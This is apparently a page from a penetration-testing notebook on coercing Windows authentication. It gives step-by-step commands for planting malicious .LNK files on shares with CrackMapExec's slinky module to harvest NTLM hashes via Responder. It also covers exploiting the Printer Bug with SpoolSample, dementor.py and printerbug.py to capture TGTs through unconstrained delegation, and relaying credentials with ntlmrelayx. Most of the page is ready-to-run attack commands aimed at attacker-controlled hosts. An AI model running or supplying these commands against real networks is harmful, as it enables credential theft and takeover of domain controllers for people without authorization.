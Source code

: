 # Coercing Authentication

### Harvest NTLMv2/v1 credentials if you have write-access to a share.

1\. Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

2\. Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

3\. After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

### The Printer Bug&#x20;

If a machine that we have compromised is configured with [unconstrained delegation](../../../tactics/credential\_access/steal-or-forge-kerberos-tickets/delegation/unconstrained-delegation.md) we are able to capture any of the TGTs from machines/accounts that have authenticated to it. If we're able to obtain a TGT from a machine account, we can craft service tickets and obtain administrative access to it - this also works for domain controllers.&#x20;

It should be noted that in order to successfully exploit the printer bug, we must have already obtained a session as or valid domain user credentials.&#x20;

#### SpoolSample.exe

1\. We first need to monitor for any new TGTs on the system that has unconstrained delegation configured. Rubeus provides us with the handy functionality to accomplish this:

```bash
.\Rubeus.exe monitor /targetuser:$machineaccount /interval:5 /nowrap
```

2\. We can then execute `SpoolSample.exe` on the host to coerce authentication:

```bash
.\SpoolSample.exe $target $attacker
```

3\. After running `SpoolSample.exe` we should then aobserve a TGT on the attacker controlled system.

#### Remotely Exploiting the Printer Bug

Alternatively, we can accomplish this same exploitation path remotely using Impacket's ntlmrelayx to relay the credentials:

```bash
# Exploiting the Printerbug with Dementor.py
dementor.py -d $domain -u $username -p $password $attackerip $targetfqdn

# Exploiting the Printerbug with Printerbug.py
python printerbug.py $domain/$username:$password@$targetfqdn $attackerip

# Relay the authentication attempt to the target server
 ntlmrelayx.py -smb2support -t smb://$targetx
```

### Trigger NTLM Auth over HTTP

```bash
## https://twitter.com/n00py1/status/1481385989025280000?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
Invoke-WebRequest -UseDefaultCredentials
```

### References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py" %}

{% embed url="https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py" %}

{% embed url="https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack/" %}

{% embed url="https://twitter.com/mpgn_x64/status/1453018750253424643?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1453018750253424643%7Ctwgr%5E8b8f7eedaf8bb13b607a524f5b0ba977c31a46c0%7Ctwcon%5Es1_&ref_url=https%3A%2F%2Fcdn.iframe.ly%2FEsKWvl5%3Fapp%3D1" %}
